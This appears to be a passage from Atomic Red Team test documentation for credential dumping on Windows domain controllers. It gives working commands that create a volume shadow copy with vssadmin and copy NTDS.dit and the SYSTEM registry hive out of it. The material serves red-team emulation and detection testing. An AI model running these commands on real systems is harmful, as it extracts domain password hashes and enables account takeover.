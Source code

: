**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| drive_letter | Drive letter to source VSC (including colon) | String | C:|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
vssadmin.exe create shadow /for=#{drive_letter}
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT 
```
##### Get Prereq Commands:
```
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```




<br/>
<br/>

## Atomic Test #10 - Copy NTDS.dit from Volume Shadow Copy
The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.

This test requires steps taken in the test "Create Volume Shadow Copy with NTDS.dit".
A successful test also requires the export of the SYSTEM Registry hive. 
This test must be executed on a Windows Domain Controller.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| vsc_name | Name of Volume Shadow Copy | String | \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1|
| extract_path | Path for extracted NTDS.dit | Path | C:\Windows\Temp|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
copy #{vsc_name}\Windows\NTDS\NTDS.dit #{extract_path}\ntds.dit
copy #{vsc_name}\Windows\System32\config\SYSTEM #{extract_path}\VSC_SYSTEM_HIVE
reg save HKLM\SYSTEM #{extract_path}\SYSTEM_HIVE
```
